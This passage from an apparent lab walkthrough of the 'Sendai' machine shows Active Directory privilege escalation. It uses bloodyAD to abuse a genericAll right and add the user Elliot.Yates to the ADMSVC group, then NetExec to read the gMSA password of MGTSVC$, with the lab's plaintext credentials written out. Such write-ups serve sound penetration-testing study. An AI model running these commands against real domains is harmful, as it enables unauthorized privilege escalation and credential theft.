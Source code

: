 Elliot is a member of **Support** group which has **genericAll** on **ADMSVC.**

We can exploit this privilege using BloodyAD.

```bash
bloodyAD -u 'Elliot.Yates' -p 'aashwin10!' --host 'dc.sendai.vl' -d 'sendai.vl' add genericAll 'ADMSVC' 'Elliot.Yates'
```

![image.png](/assets/images/Sendai_VL/image%2020.png)

Now we add **Elliot.Yates** to **ADMSVC** group.

```bash
bloodyAD -u 'Elliot.Yates' -p 'aashwin10!' --host 'dc.sendai.vl' -d 'sendai.vl' add groupMember 'ADMSVC' 'Elliot.Yates'
```

![image.png](/assets/images/Sendai_VL/image%2021.png)

Marking **ADMSVC** as owned.

### ADMSVC → MGTSVC$

![image.png](/assets/images/Sendai_VL/image%2022.png)

Now the **ADMSVC** group has **readGMSAPasswords** on **MGTSVC$** this privilege can also be exploited using NetExec, as **Elliot.Yates** is now a member of **ADMSVC** group.

```bash
nxc ldap sendai.vl -u 'Elliot.Yates' -p 'aashwin10!' --gmsa
```

![image.png](/assets/images/Sendai_VL/image%2023.png)
